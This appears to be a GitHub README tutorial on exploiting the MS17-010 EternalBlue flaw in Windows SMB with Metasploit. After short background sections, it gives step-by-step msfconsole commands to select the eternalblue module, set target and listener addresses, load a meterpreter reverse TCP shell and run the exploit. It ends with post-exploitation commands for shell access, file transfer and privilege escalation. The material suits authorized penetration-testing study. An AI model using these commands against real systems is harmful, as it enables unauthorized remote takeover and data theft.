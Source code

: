 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

<details>
<summary><strong>Metasploit</strong></summary>
Metasploit is an open-source penetration testing framework that offers a vast collection of tools and exploits for security testing, vulnerability assessment, and penetration testing. It provides a comprehensive platform for security professionals and researchers to test systems, identify vulnerabilities, and execute various security assessments. Metasploit includes a vast database of exploits, payloads, auxiliary modules, and post-exploitation tools, enabling users to assess the security posture of systems and networks.
</details>

<details>
<summary><strong>Eternal Blue</strong></summary>
EternalBlue is the codename for a critical software vulnerability in Microsoft's Windows operating system discovered by the National Security Agency (NSA) and later leaked by a hacking group. This vulnerability (CVE-2017-0144) affects the Windows Server Message Block (SMB) protocol. EternalBlue exploits a flaw in the SMBv1 protocol, allowing attackers to execute arbitrary code remotely on a vulnerable system without requiring user interaction. It was famously used as part of the WannaCry ransomware attack, highlighting its significance and the need for timely system patching and security measures.
</details>

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```bash
msfconsole
```

### View all available command in Metasploit using:

```bash
help
```

### Metasploit module:

In Metasploit, understanding various module categories is crucial for effective penetration testing and exploit development. Use `show all` command to display all available modules.

-----------------------------------------------------------------------------------------------------------------------------------------------------
| Category     | Description                                                                                       | Example Usage                  |
|--------------|---------------------------------------------------------------------------------------------------|--------------------------------|
| `exploit`    | Targets vulnerabilities in software or systems for unauthorized access or code execution.         | `show exploits`                 |
| `auxiliary`  | Tools in Metasploit for tasks like scanning, information gathering, etc., without compromise.     | `show auxiliary`               |
| `payload`    | Code/scripts performing actions on exploited systems (e.g., reverse shell or executing commands). | `show payload`                 |
| `post`       | Modules for actions post-exploitation like info gathering, privilege escalation, etc.             | `show post`                    |
| `encoder`    | Encoders modify payloads to evade antivirus or intrusion detection systems.                       | `show encoders`                |
| `nop`        | No Operation sleds used for payload alignment in exploit development.                             | `show nops`                    |
| `evasion`    | Evasion modules designed to bypass security defenses such as firewalls, IDS/IPS, and antivirus.   | `show evasion`                 |
-----------------------------------------------------------------------------------------------------------------------------------------------------

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```bash
search ms17-010
```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

## 5. Set Required Parameters

Configure necessary parameters by employing the `show options` command to view and adjust settings as needed. Common options include `RHOSTS`,`LHOST`, `RPORT`, etc.

```bash
set RHOSTS <Target IP>
```
-------------------------------------------------------------------------------
| Parameter | Description                           | Example Usage           |
|-----------|---------------------------------------|-------------------------|
| RHOSTS    | Remote host(s) IP address(es)         | `set RHOSTS 192.168.1.5`|
| LHOST     | Local host listening IP for payloads  | `set LHOST 192.168.1.2` |
| RPORT     | Remote port for the target service    | `set RPORT 445`         |
-------------------------------------------------------------------------------

## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```bash
exploit
```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the `meterpreter` prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands** 

Execute system commands on the target system using :
  
```bash
shell
```
  
- **Gather System Information**

Retrieve system information like system details, user information, etc. using commands:

```bash
sysinfo,getuid
``` 

- **File Operations**

Manipulate files on the compromised system using commands:

```bash
download, upload, ls, cd
```

- **Privilege Escalation**

Attempt to elevate privileges on the target system using modules:

```bash
getsystem, migrate
```

- **Open URL**

Open URL in compromised device using commands like:

```bash
start explorer https://www.example.com
```





